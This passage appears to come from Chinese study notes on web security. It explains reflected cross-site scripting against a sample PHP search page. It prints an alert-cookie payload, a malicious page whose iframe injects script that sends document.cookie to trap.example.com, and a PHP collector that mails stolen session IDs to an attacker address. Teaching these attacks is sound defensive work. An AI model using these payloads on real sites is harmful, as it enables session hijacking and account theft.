 + 其中 `$GET['keyword']` 表示取出请求该页面时的 query 参数中 key 为 “keyword” 的 value。

正常运行时，假设关键词是 “Haskell”，那么请求 URL 为：`http://example.jp/43/43-001.php?keyword=Haskell`，此时页面显示如下：

<img src="https://notebook-img-1304596351.cos.ap-beijing.myqcloud.com/img/image-20220716110344065.png" alt="image-20220716110344065" style="zoom:67%;" />

接下来是攻击的例子，关键字指定为：

```
keyword=<script>alert{document.cookie}</script>
```

页面中将会出现弹框并显示出 Cookie 数据。表明外部注入的 JS 成功读取到了会话 ID。

> 现在的浏览器由于加强了安全性，将会阻挡通过 XSS 执行的 JavaScript。

### 2.2 使用被动攻击盗取他人的 Cookie

然而，能够显示自己的会话ID对于攻击者来说并无太大意义，在实际的攻击中，攻击者需要将存在隐患的网站的用户引诱至恶意网站。以下就是恶意网站的示例：

```html
<html><body>
特价商品信息
<br><br>
<iframe width=320 height=100 src="http://example.jp/43/43-001.php?keyword=<script>window.location='http://trap.example.com/43/43-901.php?sid='%2Bdocument.cookie;</script>"></iframe>
</body></html>
```

恶意网站的 HTML 使用了 iframe 元素来显示存在隐患的网站的页面（/43/43-001php），并对其实施 XSS 攻击。存在隐患的网站的用户只要浏览了该恶意网站，浏览器中 iframe 里面的页面就会受到 XSS 攻击。一个恶意网站构造示例如下：

<center><img src="https://notebook-img-1304596351.cos.ap-beijing.myqcloud.com/img/image-20220716111952570.png" alt="image-20220716111952570" style="zoom:67%;" /></center>

1. 恶意网站的 iframe 中显示出存在隐患的网站
2. 存在隐患的网站遭受攻击后，Cookie 值被添加到 URL 的查询字符串中，页面跳转到信息收集页面
3. 信息收集页面将接收到的 Cookie 值通过邮件发送给攻击者

在上图的恶意网站运作方式中，打开图左侧的页面时，iframe 中会使用如下 URL 来请求隐患网页：

```
http://example.jp/43/43-001.php?keyword=<script>window.location='http://trap.example.com/43/43-901.php?sid='%2Bdocument.cookie;</script>
```

然后，存在隐患的网页中会执行如下的 JS 代码（为了便于阅读，这里做了换行）：

```javascript
<script>
window.location='http://trap.example.com/43/43-901.php?sid='
    + document.cookie;
</script>
```

这段 JS 脚本的作用是：添加 Cookie 值作为 URL 的 query 参数，并跳转到信息收集页面（/43/43-901.php）。以下为收集信息用的脚本，它会将收集到会话 ID 发送给攻击者的邮箱：

```php
<?php
  mb_language('Japanese');
  $sid = $_GET['sid'];
  mb_send_mail('wasbook@example.jp', '攻击成功', 'Session ID:' . $sid,
    'From: cracked@trap.example.com');
?>
<body>攻击成功<br>
<?php echo $sid; ?>
</body>
```
